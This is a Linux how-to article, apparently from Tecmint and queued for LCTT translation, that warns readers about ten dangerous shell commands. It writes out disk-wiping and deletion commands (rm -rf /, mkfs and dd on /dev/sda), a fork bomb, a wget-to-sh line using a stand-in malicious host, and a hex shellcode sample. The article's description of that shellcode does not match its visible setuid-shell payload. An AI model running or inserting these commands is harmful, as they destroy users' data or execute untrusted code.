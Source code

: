                             翻译中  Luox
10 Most Dangerous Commands – You Should Never Execute on Linux
================================================================================
Linux command line is productive, useful and interesting but sometimes it may be very much dangerous specially when you are not sure what you are doing. This article is not intended to make you furious of **Linux** or **Linux command** line. We just want to make you aware of some of the commands which you should think twice before you execute them.

![](http://www.tecmint.com/wp-content/uploads/2013/11/Dangerous-Linux-Commands.png)

### 1. rm -rf Command ###

The **rm -rf** command is one of the fastest way to delete a folder and its contents. But a little typo or ignorance may result into unrecoverable system damage. The some of options used with **rm command** are.

- **rm** command in Linux is used to delete files.
- **rm -r** command deletes the folder recursively, even the empty folder.
- **rm -f** command removes ‘Read only File’ without asking.
- **rm -rf /** : Force deletion of everything in root directory.
- **rm -rf ** *  : Force deletion of everything in current directory/working directory.
- **rm -rf .** : Force deletion of current folder and sub folders.

Hence, be careful when you are executing **rm -rf** command. To overcome accidental delete of file by ‘**rm**‘ command, create an alias of ‘**rm**‘ command as ‘**rm -i**‘ in “**.bashrc**” file, it will ask you to confirm every deletion.

### 2. :(){:|:&};: Command ###

The above is actually a **fork bomb**. It operates by defining a function called ‘:‘, which calls itself twice, once in the foreground and once in the background. It keeps on executing again and again till the system freezes.

    :(){:|:&};:

### 3. command > /dev/sda ###

The above command writes the output of ‘**command**‘ on the block **/dev/sda**. The above command writes raw data and all the files on the block will be replaced with raw data, thus resulting in total loss of data on the block.

### 4. mv folder /dev/null ###

The above command will move ‘**folder**‘ to **/dev/null**. In Linux **/dev/null** or **null** device is a special file that discards all the data written to it and reports that write operation succeed.

    # mv /home/user/* /dev/null

The above command will move all the contents of a **User** directory to **/dev/null**, which literally means everything there was sent to **blackhole (null)**.

### 5. wget http://malicious_source -O- | sh ###

The above command will download a script from a malicious source and then execute it. Wget command will download the script and **sh** will execute the downloaded script.

**Note**: You should be very much aware of the source from where you are downloading packages and scripts. Only use those scripts/applications which is downloaded from a trusted source.

### 6. mkfs.ext3 /dev/sda ###

The above command will format the block ‘**sda**’ and you would surely be knowing that after execution of the above command your Block (**Hard Disk Drive**) would be new, **BRAND NEW!** Without any data, leaving your system into unrecoverable stage.

### 7. > file ###

The above command is used to flush the content of file. If the above command is executed with a typo or ignorance like “> **xt.conf**” will write the configuration file or any other system or configuration file.

### 8. ^foo^bar ###

This command, as described in our [10 Lesser Known Linux Commands][1], is used to edit the previous run command without the need of retyping the whole command again. But this can really be troublesome if you didn’t took the risk of thoroughly checking the change in original command using **^foo^bar** command.

### 9. dd if=/dev/random of=/dev/sda ###

The above command will wipe out the block **sda** and write random junk data to the block. Of-course! Your system would be left at inconsistent and unrecoverable stage.

### 10. Hidden the Command ###

The below command is nothing but the first command above (**rm -rf**). Here the codes are hidden in **hex** so that an ignorant user may be fooled. Running the below code in your terminal will wipe your **root** partition.

This command here shows that the threat may be hidden and not normally detectable sometimes. You must be aware of what you are doing and what would be the result. Don’t compile/run codes from an unknown source.

    char esp[] __attribute__ ((section(“.text”))) /* e.s.p
    release */
    = “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68″
    “\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99″
    “\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7″
    “\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56″
    “\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31″
    “\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69″
    “\x6e\x2f\x73\x68\x00\x2d\x63\x00″
    “cp -p /bin/sh /tmp/.beyond; chmod 4755
    /tmp/.beyond;”;

**Note**: Don’t execute any of the above command in your **Linux** terminal or shell or of your friend or school computer. If you want to test them, run them in virtual machine. Any in-consistence or data loss, due to the execution of above command will break your system down for which, neither the **Author** of the article nor **Tecmint** is responsible.

That’s all for now. I will soon be here again with another interesting article you people will love to read. Till then Stay tuned and connected to **Tecmint**. If you know any other such **Dangerous Linux Commands** and you would like us to add to the list, please tell us via comment section and don’t forgot to give your value-able feedback.


--------------------------------------------------------------------------------

via: http://www.tecmint.com/10-most-dangerous-commands-you-should-never-execute-on-linux/

译者：[译者ID](https://github.com/译者ID) 校对：[校对者ID](https://github.com/校对者ID)

本文由 [LCTT](https://github.com/LCTT/TranslateProject) 原创翻译，[Linux中国](http://linux.cn/) 荣誉推出

[1]:http://www.tecmint.com/10-lesser-known-commands-for-linux-part-3/
[2]:
[3]:
[4]:
[5]:
[6]:
[7]:
[8]:
[9]:
[10]:
[11]:
[12]:

